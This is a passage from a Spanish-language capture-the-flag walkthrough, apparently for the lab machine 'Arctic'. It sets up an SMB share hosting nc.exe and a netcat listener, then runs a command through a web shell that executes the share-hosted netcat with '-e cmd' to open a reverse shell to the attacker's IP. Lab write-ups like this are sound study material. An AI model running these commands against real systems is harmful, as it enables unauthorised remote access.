 Una vez hecho esto ya podremos `ejecutar comandos`

![](/assets/img/Arctic/image_14.png)

## Intrusión

Para obtener `acceso` a la `máquina víctima` lo vamos a hacer mediante `netcat`, para ello nos `copiamos` el `binario` en el `directorio actual` de trabajo

```
# cp /usr/share/seclists/Web-Shells/FuzzDB/nc.exe .
```

Nos `montamos` un `servidor smb`

```
# impacket-smbserver $(pwd) smbFolder -smb2support
```

Nos ponemos en `escucha` con `netcat` por el `puerto 4444`

```
# nc -nlvp 4444
```

En la `shell` de la web `ejecutamos` este `comando`

```
\\10.10.16.35\smbFolder\nc.exe -e cmd 10.10.16.35 4444
```
